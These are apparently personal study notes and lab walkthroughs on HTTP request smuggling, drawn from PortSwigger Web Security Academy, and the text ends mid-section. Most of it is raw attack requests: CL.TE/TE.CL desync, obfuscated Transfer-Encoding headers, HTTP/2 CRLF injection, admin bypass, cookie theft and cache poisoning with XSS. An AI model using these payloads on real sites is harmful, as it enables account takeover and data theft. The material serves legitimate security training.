


# HTTP Smugling
HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.

## How to perform an HTTP request smuggling attack
Classic request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single **HTTP/1** (HTTP/2 are inherently immune to request smuggling attacks) request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behavior of the two servers:
- CL.TE: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
- TE.CL: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
- TE.TE: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

## Finding CL.TE vulnerabilities using timing techniques

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 4

    1
    A
    X

Since the front-end server uses the `Content-Length` header, it will forward only part of this request, omitting the X. The back-end server uses the `Transfer-Encoding` header, processes the first chunk, and then waits for the next chunk to arrive. This will cause an observable time delay.

## Finding TE.CL vulnerabilities using timing techniques

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Transfer-Encoding: chunked
    Content-Length: 6

    0

    X

Since the front-end server uses the `Transfer-Encoding` header, it will forward only part of this request, omitting the X. The back-end server uses the `Content-Length` header, expects more content in the message body, and waits for the remaining content to arrive. This will cause an observable time delay.

## CL.0 request smuggling
In some instances, servers can be persuaded to ignore the Content-Length header, meaning they assume that each request finishes at the end of the headers. This is effectively the same as treating the Content-Length as 0.

If the back-end server exhibits this behavior, but the front-end still uses the Content-Length header to determine where the request ends, you can potentially exploit this discrepancy for HTTP request smuggling. We've decided to call this a "CL.0" vulnerability.

### LAB: CL.0 request smuggling
First group this request with a normal request together:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /404abcxyz HTTP/1.1
    Foo: 

Send group (single connection) and observe that the second request got a `404 Not Found`. This indicates that the server ignores the CL header at `/resources/images/blog.svg` endpoint. Now change the smuggling request and send this group request to access the admin interface:

    POST /resources/images/blog.svg HTTP/1.1
    Host: 0abd002404a5ba1480f3b72c00930008.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 49
    Connection: keep-alive

    GET /admin HTTP/1.1
    Foo: 

Notice the `/admin/delete?username=carlos` endpoint to delete user Carlos. Use it in the smuggling request and send this group request to delete him.

### LAB: HTTP request smuggling, basic CL.TE vulnerability
Send this request:

    POST /post/comment HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    0

    G

The front-end is using the CL header to specify the body of the request. But at the back-end, it is using TE which decides that the body stop at `0\r\n\r\n`. Resend that POST request, this time the server is assuming the next request starts with `GPOST` which indeed returns this error:

    "Unrecognized method GPOST"

### LAB: HTTP request smuggling, basic TE.CL vulnerability
Send the `GET / HTTP/2` request to Repeater. Change request method and protocol and append this to the body:

    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1

Use `HTTP Request Smuggler` to convert it to chunked. Fix the CL header so that the body only contains everythign before the `GPOST`. The request should now look like this:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 102
    Transfer-Encoding: chunked

    5b
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 5

    x=1
    0

### LAB: HTTP request smuggling, obfuscating the TE header
First identify what the front-end is using to identify where a request ends:

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    3
    abc
    X

We got an `Invalid request` error which shows that the frontend is using TE to indicate the end of the request but got an invalid end element `X`.
Next identify what the back-end is using to identify where a request ends:

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked

    0
    
    X

We immediately got a `200 OK` response which indicates that the back-end is also using TE. 
Now try all of this technique to identify the TE header obfuscation vulnerability:

    Transfer-Encoding: xchunked

    Transfer-Encoding : chunked

    Transfer-Encoding: chunked
    Transfer-Encoding: x

    Transfer-Encoding:[tab]chunked

    [space]Transfer-Encoding: chunked

    X: X[\n]Transfer-Encoding: chunked

    Transfer-Encoding
    : chunked

The response for this request got timed out, indicate a TE header obfuscation vulnerability where the back-end server is now using the CL header (because it is waiting for the 6th byte):

    POST / HTTP/1.1
    Content-Length: 6
    Transfer-Encoding: chunked
    Transfer-Encoding: foobar

    0

    X
    
Now send this request to meet the lab's requirement:

    POST / HTTP/1.1
    Transfer-Encoding: chunked
    Transfer-Encoding: foobar
    Content-Length: 4

    5c
    GPOST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 15

    x=1
    0

### LAB: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
Send this request:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Transfer-Encoding: chunked

    0

    GET /404 HTTP/1.1
    Foo:

Resend this request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Foo: POST /HTTP/1.1
    ...

### LAB: HTTP request smuggling, confirming a TE.CL vulnerability via differential responses
Send this request:

    POST / HTTP/1.1
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    9e
    GET /404 HTTP/1.1
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

Resend this request will result in the following request which trigger the `404 Not Found` response:

    GET /404 HTTP/1.1
    Host: 0ac000c904bae0df80ee768800a200de.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=POST / HTTP/1.1
    ...

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Notice that the front-end is blocking path to `/admin`. Bypass this by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 45
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Foo:

Notice we now get another response indicating only local users are allowed to access the admin interface. Change the request to this and resend it 2 times:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 119
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:

    POST / HTTP/1.1
    Host: 0a4c00c80308340d80c4fd7100d70069.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 142
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=

### LAB: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
Same as above lab. Resend this request 2 times to get into the admin interface:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    70
    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

Now we successfully accessed the admin interface and notice the endpoint to delete user Carlos: `/admin/delete?username=carlos`. Resend this request 2 times to delete that user:

    POST / HTTP/1.1
    Host: 0a1700270458b0bf81338a4e002c0049.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 4
    Transfer-Encoding: chunked

    87
    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 144

    x=
    0

### LAB: Exploiting HTTP request smuggling to reveal front-end request rewriting
Notice the search function will reflect the value of `search` parameter into the response. To discover the front-end request rewriting, send this request 2 times:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 166
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Content-Length: 100
    Content-Type: application/x-www-form-urlencoded

    search=

We immediately got the response:

    0 search results for 'POST / HTTP/1.1
    X-xdGKVD-Ip: 222.252.28.231
    Host: 0a4b00a1041d0dc18085993400ec007d.web-secu'

This reveals the hidden header similar the `X-Forwarded-For` header. Now try using this header to access the admin interface by sending this request 2 times:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 189
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 222.252.28.231
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=

Notice a notification:

    Admin interface only available if logged in as an administrator, or if requested from 127.0.0.1

Change the `X-xdGKVD-Ip` header value to `127.0.0.1`. We now got access into the admin's interface, where we found the endpoint to delete user Carlos. Send this request 2 times to delete Carlos:

    POST / HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    Cookie: session=AG7CjZoOsfvnwBV0hv1wXLM7wTyuaAHv
    Content-Length: 212
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: 0a4b00a1041d0dc18085993400ec007d.web-security-academy.net
    X-xdGKVD-Ip: 127.0.0.1
    Content-Length: 118
    Content-Type: application/x-www-form-urlencoded

    x=

### LAB: Exploiting HTTP request smuggling to capture other users' requests
Send this request:

    POST / HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=blqqdgnPgBZvdOZN4FKLE6Vp9DQ4Pf3K
    Content-Length: 337
    Transfer-Encoding: chunked
    Content-Type: application/x-www-form-urlencoded

    0

    POST /post/comment HTTP/1.1
    Host: 0aa3009003f7bb148056802200d60035.web-security-academy.net
    Cookie: session=bEmHGZs0M8tiSA5g8KddtKrxf9rzGoRC
    Content-Length: 650
    Content-Type: application/x-www-form-urlencoded

    csrf=Cr7RjsnauMLDABIfuvd9CgFT1zBtyMHX&postId=8&name=123&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

When the victim send any request to the web, it is appended to the comment and appeared on the blog page. Retrieve there cookie to gain access to the account.

### LAB: Exploiting HTTP request smuggling to deliver reflected XSS
Found the reflected XSS at:

    <input required type="hidden" name="userAgent" value="">

Send this request to confirm the XSS:

    GET /post?postId=4 HTTP/2
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: ">

Now send this request to perform the HTTP smuggling attack:

    POST / HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 213
    Transfer-Encoding: chunked

    0

    GET /post?postId=4 HTTP/1.1
    Host: 0a9f00fd04e2f0ba808cc617006b0005.web-security-academy.net
    User-Agent: ">
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=

Now if the victim send any request to the server, the server will process the GET response that contains the XSS.

### NOLAB: Using HTTP request smuggling to turn an on-site redirect into an open redirect
Many applications perform on-site redirects from one URL to another and place the hostname from the request's Host header into the redirect URL. An example of this is the default behavior of Apache and IIS web servers, where a request for a folder without a trailing slash receives a redirect to the same folder including the trailing slash:

    GET /home HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://normal-website.com/home/

This behavior is normally considered harmless, but it can be exploited in a request smuggling attack to redirect other users to an external domain. For example:

    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 54
    Transfer-Encoding: chunked

    0

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: X

The smuggled request will trigger a redirect to the attacker's website, which will affect the next user's request that is processed by the back-end server. For example:

    GET /home HTTP/1.1
    Host: attacker-website.com
    Foo: XGET /scripts/include.js HTTP/1.1
    Host: vulnerable-website.com

    HTTP/1.1 301 Moved Permanently
    Location: https://attacker-website.com/home/

In some cases, you may encounter server-level redirects that use the path to construct a root-relative URL for the Location header, for example:

    GET /example HTTP/1.1
    Host: normal-website.com

    HTTP/1.1 301 Moved Permanently
    Location: /example/

This can potentially still be used for an open redirect if the server lets you use a protocol-relative URL in the path:

    GET //attacker-website.com/example HTTP/1.1
    Host: vulnerable-website.com

    HTTP/1.1 301 Moved Permanently
    Location: //attacker-website.com/example/

### LAB: Exploiting HTTP request smuggling to perform web cache poisoning
Notice an open redirection at the `Next blog` function. Send this request:

    POST / HTTP/1.1
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 179
    Transfer-Encoding: chunked

    0

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=

Because of the HTTP smuggling attack, when the response arrive at the browser, it will look for the script `/resources/js/tracking.js`, which will result in this request received by the server:

    GET /post/next?postId=6 HTTP/1.1
    Host: exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 50

    x=GET /resources/js/tracking.js HTTP/2
    Host: 0a95006903259c3a83e99b2e0061008d.web-security-academy.net

The server will respond with a `302 Found` response which will redirect to our exploit server. On the other hand, the cache server indicates that the response for `/resources/js/tracking.js` can be cached (`tracking.js` is a static file). Therefore, when the victim request for `/resources/js/tracking.js` (automatically does by the browser if it is not cached before when he visits the home page), he is served with the cached response:

    HTTP/2 302 Found
    Location: https://exploit-0a6e009d03b49c5383ff9a7001090043.exploit-server.net/post?postId=7
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=30
    Age: 12
    X-Cache: hit
    Content-Length: 0

This response will redirect the victim to our exploit server and execute our code. At the exploit server, change `file:/post` to match the path and add this script to the body:

    alert(document.cookie)

### LAB: Exploiting HTTP request smuggling to perform web cache deception
Same as above lab. First send this request:

    POST / HTTP/1.1
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net
    Cookie: session=KRkmTKTlwr3CeUbMMywNekbXifX0dB1q
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 40
    Transfer-Encoding: chunked

    0

    GET /my-account HTTP/1.1
    X-Ignore:

Then issue this request to view the victim's stored response:

    GET /resources/js/tracking.js HTTP/2
    Host: 0a20000a03279c7b83d5d7a90040007e.web-security-academy.net
    Connection: close

# HTTP/2 request smuggling
HTTP/2 messages are sent over the wire as a series of separate "frames". Each frame is preceded by an explicit length field, which tells the server exactly how many bytes to read in. Therefore, the length of the request is the sum of its frame lengths.

In theory, this mechanism means there is no opportunity for an attacker to introduce the ambiguity required for request smuggling, as long as the website uses HTTP/2 end to end.

## HTTP/2 downgrading
HTTP/2 downgrading is the process of rewriting HTTP/2 requests using HTTP/1 syntax to generate an equivalent HTTP/1 request. Web servers and reverse proxies often do this in order to offer HTTP/2 support to clients while communicating with back-end servers that only speak HTTP/1.

## H2.CL vulnerabilities
It may be possible to smuggle requests by injecting a misleading content-length header. Although the front-end will use the implicit HTTP/2 length to determine where the request ends, the HTTP/1 back-end has to refer to the Content-Length header derived from your injected one, resulting in a desync.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    content-length	0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10

    x=1

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 10

    x=1GET / H

## H2.TE vulnerabilities
Chunked transfer encoding is incompatible with HTTP/2 and the spec recommends that any `transfer-encoding: chunked` header you try to inject should be stripped or the request blocked entirely. If the front-end server fails to do this, and subsequently downgrades the request for an HTTP/1 back-end that does support chunked encoding, this can also enable request smuggling attacks.

**Front-end (HTTP/2)**

    :method	POST
    :path	/example
    :authority	vulnerable-website.com
    content-type	application/x-www-form-urlencoded
    transfer-encoding	chunked
    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

**Back-end (HTTP/1)**

    POST /example HTTP/1.1
    Host: vulnerable-website.com
    Content-Type: application/x-www-form-urlencoded
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: vulnerable-website.com
    Foo: bar

### LAB: H2.CL request smuggling
First test for HTTP/2 downgrading. Send this request 2 times:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    x=

If we get an `404 Not Found` this indicates that HTTP/2 downgrading is happening. Notice an open redirect vulnerability in this request:

    GET /resources
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net

    HTTP/2 302 Found
    Location: https://0a4500f704717dfa80f52195007d007e.web-security-academy.net/resources/

Make use of that, send this HTTP smuggling request:

    POST / HTTP/2
    Host: 0a4500f704717dfa80f52195007d007e.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 0

    GET /resources
    Host: exploit-0a9e006a046b7d6a80a0201a014a00ee.exploit-server.net
    Content-Length: 10

    x=

Now at the exploit server, rename the file to `/resources/` and add this script to the body:

    alert(document.cookie)

This attack only works when our HTTP smuggling request arrive after the victim visit the home page and before the victim's browser loads the Javascript file (via the `script` tag). To automate this attack use Burp Intruder with a `Sniper attack` for `Null payloads`, set the `Maximum concurrent requests` to `1` and `Delay between requests` to `300` (make sure to disable `Update Content-Length header`).

### LAB: HTTP/2 request smuggling via CRLF injection
Notice the frontend is stripping of the TE header. To bypass this send this request:

    :scheme: https
    :method: POST
    :path: /
    :authority: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c
    cookie: _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    content-length: 609
    content-type: application/x-www-form-urlencoded
    cache-control: max-age/r/nTransfer-Encoding: chunked

    0

    POST /post/comment HTTP/1.1
    Host: 0a7b00e804a0e88b80203fff000500d8.web-security-academy.net
    Cookie: session=ewyjBxPEkaeHJ0gPeGOnI0a13kg3HC1c; _lab_analytics=9ckshoDELLJa5dbtc9rvkpBJ3eQrL8KQrvOcZuqQcMXCgnysokmFOmq03xVL0laLOhWux46aedpC8xsZNJwzvv1kPIPhtHIjWqEUIKTbYMxTcWjAEBj2EStxoo8vGzC6ZHvEdZ7JE7avHP8gcUwsnu6eaZdUVa1mxyYUGKBF0RaEIsD7LskR5E5g0UWz9n9Dt7XAHfqPnqcNwmazbG1j2e3PocNHRiOkqAoUhwR1VTTvP3DyXE5yD3i3IQxqSIB6
    Content-Length: 940
    Content-Type: application/x-www-form-urlencoded

    csrf=Qhb8OnDvOSaDlZazktXIM5MHwhqTXKEF&postId=8&name=pu&email=haha%40gmail.com&website=http%3A%2F%2Faha.com&comment=

> To add the TE header inside the cache-control header, use Inspector $\to$ change the value using `Shift+Enter` to add the CRLF character and append the TE header.

Go to the blog page and observe the victim's cookie. Use it to login as the victim.

### LAB: HTTP/2 request splitting via CRLF injection
Send this request:

    :scheme: https
    :method: POST
    :path: /404
    :authority: 0afa001c0444e839802b5da000d20030.web-security-academy.net
    cookie: session=wHocCe9IWXgoBdJwUgt9syJVkPJ10HBa
    content-type: application/x-www-form-urlencoded
    content-length: 0
    accept-language: en-US,en;q=0.9

    GET /404 HTTP/1.1
    Host: 0afa001c0444e839802b5da000d20030.web-security-academy.net

After the HTTP2 downgrading process, the server will receive 2 request which then will respond with 2 request. But since the front-end assume that it only sends 1 request, the other one is queued. When the victim makes any request, he is served with that queued request and the true response is queued. Repeat sending this request several time until we receive a `302 Found` response for the victim's request. Retrieve the cookie and delete user Carlos.

# Response queue poisoning
Response queue poisoning is a powerful form of request smuggling attack that causes a front-end server to start mapping responses from the back-end to the wrong requests.

## Desynchronizing the response queue
When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly.

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

### LAB: Response queue poisoning via H2.TE request smuggling
Notice the `404 Not Found` when sending this request 2 times, which indicates that the HTTP/2 downgrading is happending and the server supports TE:

    POST / HTTP/2
    Host: 0ad2006d0482c3d784d1dcc100920070.web-security-academy.net
    Transfer-Encoding: chunked

    0

    GET /404 HTTP/1.1
    Host: 0ad2006d0482c3d784d1dcc100920070.web-security-academy.net

Resend this several times until we get a `302 Found` and observe the administrator's cookie. Use this cookie to access the admin interface and delete user Carlos.

# HTTP request tunnelling
Request tunnelling is possible with both HTTP/1 and HTTP/2 but is considerably more difficult to detect in HTTP/1-only environments. Due to the way persistent (keep-alive) connections work in HTTP/1, even if you do receive two responses, this doesn't necessarily confirm that the request was successfully smuggled.

In HTTP/2 on the other hand, each "stream" should only ever contain a single request and response. If you receive an HTTP/2 response with what appears to be an HTTP/1 response in the body, you can be confident that you've successfully tunneled a second request.

## Non-blind request tunnelling using HEAD
Responses to HEAD requests often contain a content-length header even though they don't have a body of their own. This normally refers to the length of the resource that would be returned by a GET request to the same endpoint. Some front-end servers fail to account for this and attempt to read in the number of bytes specified in the header regardless. If you successfully tunnel a request past a front-end server that does this, this behavior may cause it to over-read the response from the back-end. As a result, the response you receive may contain bytes from the start of the response to your tunnelled request.

**Request:**

    :method	HEAD
    :path	/example
    :authority	vulnerable-website.com
    foo	bar\r\n
        \r\n
        GET /tunnelled HTTP/1.1\r\n
        Host: vulnerable-website.com\r\n
        X: x

**Response:**

            :status	200
            content-type	text/html
            content-length	131

    HTTP/1.1 200 OK
    Content-Type: text/html
    Content-Length: 4286

    <!DOCTYPE html>
    <h1>Tunnelled</h1>
    
This is a tunnelled respo

If the endpoint to which you send your `HEAD` request returns a resource that is shorter than the tunnelled response you're trying to read, it may be truncated before you can see anything interesting, as in the example above. On the other hand, if the returned `content-length` is longer than the response to your tunnelled request, you will likely encounter a timeout as the front-end server is left waiting for additional bytes to arrive from the back-end. 
You can often overcome these issues using one of the following solutions:
- Point your `HEAD` request to a different endpoint that returns a longer or shorter resource as required.
- If the resource is too short, use a reflected input in the main `HEAD` request to inject arbitrary padding characters. Even though you won't actually see your input being reflected, the returned `content-length` will still increase accordingly.
- If the resource is too long, use a reflected input in the tunnelled request to inject arbitrary characters so that the length of the tunnelled response matches or exceeds the length of the expected content.

### LAB: Bypassing access controls via HTTP/2 request tunnelling
First test for CRLF. To the request `GET / HTTP/2` add this header:

    Name: foo: bar/r/n
          Host: abc.com/r/n

    Value: x

Notice we successfully inject a `Host` header via the error response. 
Base on this process: 
To the search request, change the method to `POST` and add this header:

    Name: foo: bar/r/n
          Content-Length: 110/r/n
          /r/n
          search=

    Value: x

Notice in the response we found this 3 hidden headers:

    X-SSL-VERIFIED: 0
    X-SSL-CLIENT-CN: null
    X-FRONTEND-KEY: 4589371175976603

Base on this process: 
To the `GET / HTTP/2` request, change the method to `HEAD` (to make the frontend read the content with lenght specified by the `Content-Length` response header) and add this header:

    Name: foo: bar/r/n
          /r/n
          GET /admin HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

Notice the response indicating the that the smuggled response length is shorter than the expected length of `GET / HTTP/2`.
Change the path to `/login` for a shorter response. Now we successfully got access to the admin panel. Notice this endpoint to delete user Carlos: `/admin/delete?username=carlos`. Now change the above header to delete Carlos:

    Name: foo: bar/r/n
          /r/n
          GET /admin/delete?username=carlos HTTP/1.1/r/n
          Host: 0af100d1040254cc85406e9b006f00af.web-security-academy.net/r/n
          X-SSL-VERIFIED: 1/r/n
          X-SSL-CLIENT-CN: administrator/r/n
          X-FRONTEND-KEY: 4589371175976603/r/n
          /r/n

    Value: x

### LAB: Web cache poisoning via HTTP/2 request tunnelling
First detect a XSS sink. Send this request:

    GET /resources/images? HTTP/2

Notice that the script is appended to the location `Header`. If we can smuggle a request to this path where its response is contained inside a response with `Content-Type: text/html` header, our script will be executed.
Next find a CRLF vulnerability. To the `GET / HTTP/2` request change the request method to `HEAD` and change this header:

    Name: :path
    Value: / HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n

The response is now containing the smuggled response just like the above lab. Now we have to change the path to point to `/resources/images?`. This time we got an error indicating that the smuggled response length is much smaller than the expeted length from the `HEAD / HTTP/2` request. To bypass this just simply add random payload to the path value so that it is greater than the expected length:

    Name: :path
    Value: /resources/images?aaaaaaa... HTTP/1.1/r/n
           /r/n
           GET / HTTP/1.1/r/n
           Host: 0a4d0034032fae2a819c98890097009e.web-security-academy.net/r/n

Now the response should look like this which will execute our script:

    HTTP/2 200 OK
    Content-Type: text/html; charset=utf-8
    Content-Length: 8434
    X-Frame-Options: SAMEORIGIN
    Cache-Control: max-age=30
    Age: 0
    X-Cache: miss

    HTTP/1.1 302 Found
    Location: /resources/images/?aaaaaaa...

The next time the victim visits the home page, he is served with this response which call the `alert(1)` function.

# Client-side desync attacks
A client-side desync (CSD) is an attack that makes the victim's web browser desynchronize its own connection to the vulnerable website.
In high-level terms, a CSD attack involves the following stages:
- The victim visits a web page on an arbitrary domain containing malicious JavaScript.
- The JavaScript causes the victim's browser to issue a request to the vulnerable website. This contains an attacker-controlled request prefix in its body, much like a normal request smuggling attack.
- The malicious prefix is left on the server's TCP/TLS socket after it responds to the initial request, desyncing the connection with the browser.
- The JavaScript then triggers a follow-up request down the poisoned connection. This is appended to the malicious prefix, eliciting a harmful response from the server.

> Note: For these attacks to work, it's important to note that the target web server must not support HTTP/2. Client-side desyncs rely on HTTP/1.1 connection reuse, and browsers generally favor HTTP/2 where available.

## [Testing for client-side desync vulnerabilities](https://portswigger.net/web-security/request-smuggling/browser/client-side-desync#testing-for-client-side-desync-vulnerabilities)

### LAB: Client-side desync
First detect client-side desync:
